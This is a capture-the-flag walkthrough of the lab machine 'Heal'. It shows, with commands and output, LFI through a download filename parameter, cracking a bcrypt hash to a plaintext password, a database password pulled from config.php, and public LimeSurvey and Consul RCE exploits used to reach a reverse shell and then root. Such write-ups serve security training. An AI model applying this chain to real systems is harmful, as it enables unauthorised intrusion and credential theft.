

## Overview
Heal is a machine that runs Linux with a Medium difficulty level. Demonstrates a multi-layered attack surface involving web application vulnerabilities, credential reuse, and privilege escalation via exposed services. The engagement began with subdomain enumeration and culminated in full root access through a chain of exploits targeting Ruby on Rails, LimeSurvey, and HashiCorp Consul.

## Information Gathering
During the information-gathering phase, I ran Nmap to enumerate open ports and services. After adding the domain name to `/etc/hosts`, Nmap revealed an HTTP service with the title "Heal", indicating custom web content.

```shell
➜ heal  nmap -sCV --min-rate 1000 -T4 -oA nmap/heal 10.10.11.46

Nmap scan report for heal.htb (10.10.11.46)
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Heal
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
{: .nolineno}

Upon accessing the HTTP service via a browser, I discovered a login page and a registration portal. After creating an account, I was redirected to `/resume` (a Resume Builder page).



The navigation bar included a Survey button linking to `/survey`, which redirected to `take-survey.heal.htb`. I added this virtual host (vhost) to `/etc/hosts`.

```shell
echo '10.10.11.46 heal.htb take-survey.heal.htb' | sudo tee -a /etc/hosts
```
{: .nolineno}


While testing the Resume Builder’s "EXPORT AS PDF" feature, I inspected network traffic using Firefox DevTools and identified requests to `api.heal.htb`.

```shell
echo '10.10.11.46 heal.htb take-survey.heal.htb api.heal.htb' | sudo tee -a /etc/hosts
```
{: .nolineno}


## Exploitation
After adding this vhost to `/etc/hosts`, I intercepted the export request with Burp Suite and manipulated the `filename` parameter in the `/download` endpoint to read `/etc/passwd`, confirming a Local File Inclusion (LFI) vulnerability. The `/etc/passwd` file revealed two users: ralph and ron.


To get the password of the user that has been found, usually find out about the web application framework used. The `api.heal.htb` homepage indicated the application used Ruby on Rails.


After searching about Ruby on Rails I found a hint on its official page that this framework uses the sqlite3 database. In that page, I can also see the location of the database file configuration stored in `storage/development.sqlite3`. By exploiting the LFI vulnerability, I managed to see the contents of the database file by going back two directories. In the database file are the credentials of the user ralph along with his hashed password.


Due to hardware limitations, I used a VPS to crack passwords. The password hash uses the `bcrypt` algorithm, but the combination of `hashcat` with the `rockyou.txt` wordlist I can found the plaintext of the hash.

```shell
root@6c483be0c2ec:~/hash# hashcat ralph.hash --identify
The following 3 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                        | Operating System
[SNIP]

root@6c483be0c2ec:~/hash# hashcat -m 3200 ralph.hash ../rockyou.txt --show
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```
{: .nolineno}

Using gobuster, I enumerated the directories of the `take-survey.heal.htb` vhost and found the `/admin` endpoint which redirects to the login page.

```shell
➜ heal  gobuster dir -u http://take-survey.heal.htb/ -w ~/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://take-survey.heal.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/isaac/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/Admin                (Status: 302) [Size: 0] [--> http://take-survey.heal.htb/index.php/admin/authentication/sa/login]
/LICENSE              (Status: 200) [Size: 49474]
```
{: .nolineno}

## Initial Access
The login page is LimeSurvey and with the credentials I have obtained, I managed to logged into the admin page. I used `searchexploit` to discover a publicly published LimeSurvey vulnerability, and found LimeSurvey Authenticated Remote Code Execution (RCE). After that I learned how the vulnerability can be exploited.

```shell
➜ exploit  searchsploit limesurvey
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
[SNIP]
LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)       | php/webapps/50573.py
[SNIP]

➜ exploit  searchsploit -m php/webapps/50573.py
  Exploit: LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)
[SNIP]

➜ exploit  mv 50573.py exploit.py
➜ exploit  zip 0x5chltz.zip revshell.php config.xml
```
{: .nolineno}

```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>0x5chltz</name>
        <type>plugin</type>
        <creationDate>2025-01-13</creationDate>
        <lastUpdate>2025-01-13</lastUpdate>
        <author>0x5chltz</author>
        <authorUrl>https://github.com/0x5chltz</authorUrl>
        <supportUrl>https://github.com/0x5chltz</supportUrl>
        <version>6.6.4</version>
        <license>GNU General Public License version 3 or later</license>
        <description>
                <![CDATA[Author : 0x5chltz]]></description>
    </metadata>

    <compatibility>
        <version>6.0</version>
        <version>5.0</version>
        <version>4.0</version>
        <version>3.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

After understanding the exploitation of this vulnerability, I modified the script and configuration file to suit the environment. I ran the script to perform the automated exploitation and successfully obtained a `reverse shell`.


I managed to control the target system as a low-privilege user, and my attack vector was targeted to find the password of user `ron`. I enumerated the files related to the configuration using the `find` command and found the location of the configuration file that contained a password.

```shell
www-data@heal:~/limesurvey$ find . -name "config.php" 2>/dev/null
./vendor/kcfinder/conf/config.php
./vendor/yiisoft/yii/framework/messages/config.php
./vendor/yiisoft/yii/requirements/messages/config.php
./application/config/config.php

www-data@heal:~/limesurvey$ cat ./application/config/config.php
[SNIP]
'username' => 'db_user',
'password' => 'AdmiDi0_pA$$w0rd',
'charset' => 'utf8',
'tablePrefix' => 'lime_',
[SNIP]
```
{: .nolineno}

## Privilege Escalation
User `ron` had no `sudo` privileges, but a local service on port 8500 (HashiCorp Consul) was exposed.

```shell
ron@heal:~$ ls -la
ls -la
total 28
drwxr-x--- 3 ron  ron  4096 Dec  9 15:13 .
drwxr-xr-x 4 root root 4096 Dec  9 12:53 ..
lrwxrwxrwx 1 root root    9 Dec  9 12:57 .bash_history -> /dev/null
-rw-r--r-- 1 ron  ron   220 Dec  9 12:53 .bash_logout
-rw-r--r-- 1 ron  ron  3771 Dec  9 12:53 .bashrc
drwx------ 2 ron  ron  4096 Dec  9 15:13 .cache
-rw-r--r-- 1 ron  ron   807 Dec  9 12:53 .profile
-rw-r----- 1 root ron    33 May 18 12:00 user.txt

ron@heal:~$ sudo -l
[sudo] password for ron:
Sorry, user ron may not run sudo on heal.

ron@heal:~$ ss -tuln | grep 127
[SNIP]
tcp   LISTEN 0      4096       127.0.0.1:8500       0.0.0.0:*

ron@heal:~$ curl 127.0.0.1:8500
curl 127.0.0.1:8500
<a href="/ui/">Moved Permanently</a>.

ron@heal:~$ curl 127.0.0.1:8500/ui/
curl 127.0.0.1:8500/ui/
<!DOCTYPE html>
<!--
 Copyright (c) HashiCorp, Inc.
 SPDX-License-Identifier: BUSL-1.1
-->

<html lang="en" class="ember-loading">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Consul by HashiCorp</title>
    <meta name="description" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1">
```
{: .nolineno}

Take advantage of the ron user to port forward port 8500 using the `SSH` service.

```shell
➜ heal  ssh ron@heal.htb -L 8500:127.0.0.1:8500
ron@heal.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
[SNIP]
```
{: .nolineno}

I used `searchsploit` again to discover vulnerabilities from `Consul` application and found RCE vulnerability. I converted txt file obtained from `exploit-db` into python file to be executable.

```shell
➜ exploit  searchsploit consul
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
[SNIP]
Hashicorp Consul v1.0 - Remote Command Execution (RCE)  | multiple/remote/51117.txt
[SNIP]

➜ exploit  searchsploit -m multiple/remote/51117.txt
➜ exploit  mv 51117.txt consul.py
```
{: .nolineno}

I ran the script and managed to get the `root` user.

